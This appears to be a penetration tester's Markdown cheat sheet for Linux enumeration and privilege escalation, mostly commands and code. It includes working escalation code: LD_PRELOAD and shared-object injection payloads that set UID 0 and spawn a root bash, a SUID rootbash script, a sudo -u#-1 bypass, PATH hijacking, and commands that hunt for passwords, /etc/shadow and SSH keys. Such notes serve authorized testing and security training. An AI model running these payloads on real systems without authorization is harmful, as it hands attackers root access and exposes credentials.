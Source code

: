   
# Linux Host Enumeration   
## Checklists / What to look for
- [ ] Get a fully functional TTY  
- [ ] General host enum 
- [ ] Transfer files and run scripts 
- [ ] Exploitable sudo binaries or exploits  
- [ ] Exploitable cronjobs 
- [ ] SUID/SGID binaries  
- [ ] Services (running as root, only available to localhost)
- [ ] Passwords / config files 
- [ ] Binaries with exploitable capabilities 
- [ ] Is the kernel vulnerable  (last resort priv esc) 
- [ ] Further access into the network / post exploitation 

[Tiberius Linux Privilige Escalation](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/privilege-escalation/linux/linux.rst) 
[Linux Priv Esc Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)  

## Quick Enumeration Commands  
    hostname; ip addr;    
    whoami; id   
    uname -r   
    cat /etc/passwd | grep /bin/bash   
    ls -l /etc/shadow  
    su -, su root (no password, root, password) 
    sudo -l  
    ps -aux | grep root 
    netstat -antp 
    
## File Transfer 
    which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null 
    
## Scripts
run [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) with increasing run levels, [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [linenum](https://github.com/rebootuser/LinEnum) 

 
    
## Upgrade to a fully functional TTY 
### Check 
    if [ -t 1 ] ; then echo terminal; else echo "not a terminal"; fi 
### Upgrade 
    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash') 
    /bin/sh -i 
    
[Gaining TTY](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/privilege-escalation/linux/gaining-tty.rst) 
## Sudo exploits 
sudo -l, cat /etc/sudoers, check gtfobins 
sudo -V 
## Sudo LD_PRELOAD 
sudo -l, see env_keep+=LD_PRELOAD 

    #include <stdio.h> 
    #include <sys/types.h>
    #include <stdlib.h>
    void _init(){
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
    } 
    
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c 

sudo LD_PRELOAD=/tmp/preload.so [sudo binary] 

## CVE-2019-14287 
sudo -l, see (ALL,!root) 
    sudo -u#-1 [binary escape]  
## CVE-2019-16634 
sudo su root, type password, see ******: passwd feedback enabled 
[proof of concept](https://github.com/saleemrashid/sudo-cve-2019-18634) 
## CVE-2021-3156 - Baron Samedit 
[proof of concept](https://github.com/stong/CVE-2021-3156) 

## Cronjobs    
look for scripts you can write to running as a cronjob, writeable cron directory/crontab, writeable PATH directories used, wildcard expansion 

    cat /etc/crontab  
    crontab -l    
    ls -al /etc/cron* 
## PATH variable 
If a cronjob doesn’t use an absolute path and one of path dirs is writable by user: can create a script with the same name as the cron job so it is executed. 
default /usr/bin:/bin 
    echo $PATH 
    cat /etc/crontab     
### Rootbash script 
    #!/bin/bash 
    cp /bin/bash /tmp/rootbash 
    chmod +s /tmp/rootbash 
### Wildcards 
[Exploiting wildcards in Linux](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/) 

## SUID Binaries 
    overwrite binary, use gtfobins exploits, insert missing shared object, manipulate enviromental variables 
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;  2>/dev/null     
    find / -type f -a -perm -o+x -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null  
    
### Custom Executable
    int main(){
        setuid(0);
        system("/bin/bash -p");
    }  
### Shared Object Injection 
look for missing shared objects searched for in writable directories 
    strace [suid binary] 2>&1 | grep -iE “open|access|no such file” 
    [missing shared object].c 
    #include <stdio.h> 
    #include <stdlib.h> 
    static void inject() __attribute__((constructor));  
    void inject(){ 
     setuid(0); 
     system("/bin/bash -p"); 
    } 
    
    gcc -shared -fPIC -o [missing shared object].so [missing shared object].c 
    run suid binary 
### PATH Enviromental Variables 
SUID /SGID binary tries to execute another file without absolute path? -> change PATH var 
    strings [suid binary] 
    strace -v -f -e execve [suid binary] 2>&1 | grep exec 
    ltrace [suid binary]  
    
compile custom executable with name of file suid binary is calling
set PATH variable to current directory and run suid binary  

    PATH=.:$PATH /usr/local/bin/suid-env

### Misc SUID binaries 
    pkexec --user root /bin/sh  
    use binary to exec /bin/bash -p 
## Services Running as Root / Services Only Running Locally
    ps -aux | grep root 
    netstat -etulp 
    mysql running as root [exploit](https://www.exploit-db.com/exploits/1518)  
    ftp, telnet - tcpdump to sniff creds??
## Passwords / config files 
    find . -type f -exec grep -i -I "PASSWORD=" {} /dev/null \; 
    /etc/passwd, /etc/shadow, /etc/sudoers  read or write?? 
    cat ~/.ssh  
## Capabilities 
check gtfobins, [capabilities reference](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities) 
    getcap -r / 2>/dev/null  
    
## Kernel Exploits 
    uname -a  
    cat /etc/*-release
### Cross compile 
No compilers on host: use gcc-multilib -m32 (32 bit OS) or -m64 (64 bit OS) then upload 
    gcc -m32 -o output32 exploit.c     #(32 bit) 
    gcc -m64 -o output exploit.c       #(64 bit)  
    
## Further Access into a Network 
    netstat -antp; arp -a 
    for x in {1 .. 254};do (ping -c 1 l.l.l.$x | grep "bytes from" &); done | cut -d " " 
    cat /etc/hosts  
# Resources 
## Learn More 
[Hacktricks Linux Privilige Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation) 
[Local Priv Esc workshop](https://github.com/sagishahar/lpeworkshop) 
[A Guide to Linux Privilige Escalation](https://payatu.com/guide-linux-privilege-escalation)
[g0tm1lk checklist](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) 
[Linux elevation of privileges ToC](https://guif.re/linuxeop) 
[Linux Enumeration](https://zweilosec.gitbook.io/hackers-rest/linux-1/linux-redteam/enumeration) 

